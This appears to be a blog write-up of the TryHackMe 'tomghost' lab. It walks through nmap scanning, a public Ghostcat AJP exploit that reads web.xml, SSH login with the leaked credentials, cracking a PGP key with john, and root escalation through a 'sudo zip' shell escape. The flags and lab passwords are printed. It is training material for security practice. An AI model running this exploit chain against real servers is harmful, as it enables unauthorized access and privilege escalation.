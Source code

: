 ```yaml
---
title: "tomghost - TryHackMe"
author: Ludovic COULON
date: 2020-05-12
hero: ./images/hero.jpeg
excerpt: "Writeup for the tomghost challenge"
---
```


[TryHackMe | tomghost](https://tryhackme.com/room/tomghost)

<div className="Image__Medium">
  <img src="https://i.imgur.com/fR0jVuM.png" alt="blog_image" />
</div>

**Are you able to complete the challenge?**

The machine may a take up to 5 minutes to boot and configure.

### Setup

```bash
nmap -sV -sC -vv 10.10.68.237
```

```bash
Discovered open port 53/tcp on 10.10.68.237
Discovered open port 22/tcp on 10.10.68.237
Discovered open port 8080/tcp on 10.10.68.237
Discovered open port 8009/tcp on 10.10.68.237
```

```bash
22/tcp   open  ssh        syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw

53/tcp   open  tcpwrapped syn-ack

8009/tcp open ajp13 syn-ack Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS

8080/tcp open http syn-ack Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After trying to exploit the Apache Tomcat, I realize that I was wrong about that, so I tried the other port 8009 Apache Jserv I search on github for one exploit and I found this.

[00theway/Ghostcat-CNVD-2020-10487](https://github.com/00theway/Ghostcat-CNVD-2020-10487)

```bash
python3 ajpShooter.py http://10.10.68.237:8080 8009 /WEB-INF/web.xml read
# URL:PORT + Jserv PORT + /WEB-INF/web.xml read
```

<div className="Image__Medium">
  <img src="https://imgur.com/FtZHUNJ.png" alt="blog_image" />
</div>

```bash
skyfuck:8730281lkjlkjdqlksalks
# Let's try to ssh this
```

<div className="Image__Medium">
  <img src="https://imgur.com/fsV6mGi.png" alt="blog_image" />
</div>

### #1 Compromise this machine and obtain user.txt

<div className="Image__Medium">
  <img src="https://imgur.com/XCy6lRK.png" alt="blog_image" />
</div>

```bash
skyfuck@ubuntu:~$ cd /home
skyfuck@ubuntu:/home$ ls
merlin  skyfuck
skyfuck@ubuntu:/home$ cd merlin/
skyfuck@ubuntu:/home/merlin$ ls
user.txt
skyfuck@ubuntu:/home/merlin$ cat user.txt
THM{GhostCat_1s_so_cr4sy}
```

### #2 Escalate privileges and obtain root.txt

If you going back to the skyfuck's home directory you will see the "credential.pgp" "tryhackme.asc"

let's scp them to our machine to crack them.

```bash
➜  TryHackMe scp skyfuck@10.10.68.237:/home/skyfuck/credential.pgp .
skyfuck@10.10.68.237 password:
credential.pgp

➜  TryHackMe scp skyfuck@10.10.68.237:/home/skyfuck/tryhackme.asc .
skyfuck@10.10.68.237 password:
tryhackme.asc
```

For this i'll use gpg2john

```bash
➜  TryHackMe sudo gpg2john tryhackme.asc > bopme

File tryhackme.asc
➜  TryHackMe cat bopme
tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc
```

Now the fun part crack the gpg !

```bash
➜  TryHackMe sudo john bopme --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

"alexandru"        (tryhackme)

1g 0:00:00:00 DONE (2020-05-12 14:27) 10.00g/s 10720p/s 10720c/s 10720C/s chinita..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Nice we have the password

```bash
alexandru
```

Now let's decrypt the pgp file, but first let's import the tryhackme.asc

```bash
➜  TryHackMe gpg --import tryhackme.asc
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

# password => alexandru
```

```bash
➜  TryHackMe gpg --decrypt credential.pgp
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

Nice we have the merlin's ssh password

<div className="Image__Medium">
  <img src="https://imgur.com/zrEzvSs.png" alt="blog_image" />
</div>

Let's root the machine !

[zip | GTFOBins](https://gtfobins.github.io/gtfobins/zip/)

```bash
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
$ id
uid=0(root) gid=0(root) groups=0(root)
$ cd /root/
$ ls
root.txt  ufw
$ cat root.txt
THM{Z1P_1S_FAKE}

```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/p0h00A1.png" alt="TryhackMeProfile" />
  </a>
</center>
